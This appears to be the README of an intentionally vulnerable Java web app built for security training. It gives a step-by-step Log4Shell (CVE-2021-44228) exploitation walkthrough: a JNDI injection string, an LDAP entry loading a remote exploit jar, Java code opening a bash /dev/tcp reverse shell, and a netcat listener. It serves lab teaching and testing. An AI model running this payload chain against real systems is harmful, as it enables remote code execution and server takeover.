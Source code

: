 # vulnerable-webapp
An application with various vulnerabilities for testing

## Running the application

- Run the java file: ```java -jar vulnerable-webapp-[latest].jar```
- The default username is `jblogs` and the default password is `pa55word`.
- You will need a web browser such as firefox.


# Some vulnerabilities

## CVE-2021-44228 (log4shell)

To enable the in-memory LDAP server that is required for the JNDI lookup, you must run the application (v1.5.0 onward which includes the vulnerable version of log4j) using the `ldap` spring profile e.g.:

```bash
java -Dspring.profiles.active=ldap -jar vulnerable-webapp-[latest].jar
```

Optionally, if you want to debug the in-memory LDAP server, you can enable `unboundid` debug logging using:


```bash
-Dcom.unboundid.ldap.sdk.debug.enabled=true -Dcom.unboundid.ldap.sdk.debug.level=INFO -Dcom.unboundid.ldap.sdk.debug.type=ASN1 -Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

### Triggering the vulnerability

To trigger the vulnerability and force Log4j to load a Java Naming Reference LDAP entry (rfc2713) using JNDI, inject the following expression into the *username* field of the `user-admin` page (other fields may work too!)


```
${jndi:ldap://127.0.0.1:8081/uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk}
```

![JNDI log4shell injection](site/img/jndi-injection.jpg)


The log4j variable substitution code path will then fetch the following `javaNamingReference` object from the in-memory LDAP server (via JNDI):

```
dn: uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk
objectclass: top
objectclass: javaContainer
objectclass: javaObject
objectclass: javaNamingReference
javaCodeBase: http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar
javaClassName: uk.ac.jisc.cybersec.rce.RceExploit
javaFactory: uk.ac.jisc.cybersec.rce.RceExploit
cn: Java Class
sn: Class
uid: java-ref
```

The URLClassLoader will lookup the `uk.ac.jisc.cybersec.rce.RceExploit` class firstly from the local classpath — where it does not exist — then from the URL codebase provided by the LDAP entry (e.g. remotely via HTTP at `http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar`). This downloads the referenced `jar` file, and instantiates `uk.ac.jisc.cybersec.rce.RceExploit`, triggering the static method shown below. The malicious code attempts to establish a reverse shell to anything listening on port *8083* on *localhost*:

```java
package uk.ac.jisc.cybersec.rce;

/**
 * Sample RCE exploit class. 
 */
public class RceReverseShellExploit {

	static {
		try {
			System.out.println("****************************** Attempting takeover (reverse shell)...");
			String[] cmd = {
			           "bash",
			           "-c",
			           "exec 5<>/dev/tcp/127.0.0.1/8083;cat <&5 | while read line; do $line 2>&5 >&5; done" };
			 
			   Runtime.getRuntime().exec(cmd);
			System.out.println("****************************** Takeover success!");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

To complete the attack and establish a remote network connection to the compromised web-server, you, as the *bad-actor*, must start a listener on port `8083` on `localhost` (in a real-world attack, this would be a remote server). For example, using `netcat`:


```bash
nc -l 8083
```

Once the connection is established, you can run bash commands inside the listener you started above e.g. type `ls` into the terminal window running `netcat`.


#### Note on Java Version

To ensure the vulnerability works in versions of Java greater than v8, the following property is set automatically by the web-application — JDK versions after JDK 8 disable class creation from URL codebases by default.


```
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

Note, a 'codebase' can be defined as a source, or a place, from which to load classes into a virtual machine. 
